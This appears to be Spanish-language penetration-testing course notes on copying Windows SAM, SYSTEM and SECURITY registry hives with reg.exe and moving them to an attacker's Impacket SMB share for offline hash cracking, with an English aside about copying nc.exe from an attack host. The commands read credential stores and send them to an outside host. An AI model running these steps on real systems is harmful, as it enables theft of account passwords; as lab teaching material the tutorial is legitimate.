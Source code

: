 Con acceso a un sistema Windows sin dominio, podemos beneficiarnos al intentar volcar rápidamente los archivos asociados con la base de datos SAM para transferirlos a nuestro host de ataque y comenzar a descifrar hashes sin conexión. Hacer esto sin conexión garantizará que podamos continuar intentando nuestros ataques sin mantener una sesión activa con un objetivo. 

#### Copying SAM Registry Hives

Hay tres colmenas de registro que podemos copiar si tenemos acceso de administrador local en el destino; cada uno tendrá un propósito específico cuando lleguemos a desechar y descifrar los hashes. Aquí hay una breve descripción de cada uno en la siguiente tabla:


| Registry Hive   | Description                                                                                                                                                                                       |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                 |                                                                                                                                                                                                   |
| `hklm\sam`      | Contiene los hash asociados con las contraseñas de las cuentas locales. Necesitaremos los hashes para poder descifrarlos y obtener las contraseñas de las cuentas de usuario en texto sin cifrar. |
| `hklm\system`   | Contiene la clave de arranque del sistema, que se utiliza para cifrar la base de datos SAM. Necesitaremos la clave de arranque para descifrar la base de datos SAM.                               |
| `hklm\security` | Contiene credenciales almacenadas en caché para cuentas de dominio. Podemos beneficiarnos de tener esto en un destino de Windows unido a un dominio.                                              |
Podemos crear copias de seguridad de estas colmenas usando el `reg.exe` utilidad.

#### Using reg.exe save to Copy Registry Hives
Iniciar CMD como administrador nos permitirá ejecutar reg.exe para guardar copias de las colmenas de registro antes mencionadas. Ejecute estos comandos a continuación para hacerlo:
```js
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
The operation completed successfully.
```

Técnicamente sólo necesitaremos `hklm\sam` & `hklm\system`, pero `hklm\security`También puede ser útil guardarlo, ya que puede contener hashes asociados con las credenciales de cuentas de usuario de dominio almacenadas en caché presentes en hosts unidos a un dominio. Una vez que las colmenas se guardan sin conexión, podemos usar varios métodos para transferirlas a nuestro host de ataque. En este caso, usemos [smbserver.py de Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) en combinación con algunos comandos CMD útiles para mover las copias de la colmena a un recurso compartido creado en nuestro host de ataque.

#### Creando un recurso compartido con smbserver.py
Todo lo que debemos hacer para crear el recurso compartido es ejecutar smbserver.py -smb2support usando python, darle un nombre al recurso compartido ( `CompData`) y especifique el directorio en nuestro host de ataque donde el recurso compartido almacenará las copias de la colmena ( `/home/ltnbob/Documents`). Sepa que el `smb2support`La opción garantizará que se admitan las versiones más recientes de SMB. Si no utilizamos este indicador, habrá errores al conectarnos desde el objetivo de Windows al recurso compartido alojado en nuestro host de ataque. Las versiones más recientes de Windows no son compatibles con SMBv1 de forma predeterminada debido a las [numerosas vulnerabilidades graves](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1) y exploits disponibles públicamente.

```js
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Una vez que tengamos el recurso compartido ejecutándose en nuestro host de ataque, podemos usar el `move` comando en el destino de Windows para mover las copias de la colmena al recurso compartido.
#### Mover copias de Hive para compartir
```ls
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

THIS SHIT DONT WORKS!!!

Attacker
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

Victim
```
copy \\192.168.220.133\share\nc.exe
```

Luego podemos confirmar que nuestras copias de la colmena se movieron exitosamente al recurso compartido navegando al directorio compartido en nuestro host de ataque y usando `ls` para enumerar los archivos.

#### Confirmación de copias de Hive transferidas al host de ataque
```js
p314d0@htb[/htb]$ ls

sam.save  security.save  system.save
```

## Dumping Hashes with Impacket's secretsdump.py

Una herramienta increíblemente útil que podemos usar para volcar los hashes fuera de línea es Impacket. `secretsdump.py`. Impacket se puede encontrar en la mayoría de las distribuciones de pruebas de penetración modernas. Podemos comprobarlo usando `locate` en un sistema basado en Linux:

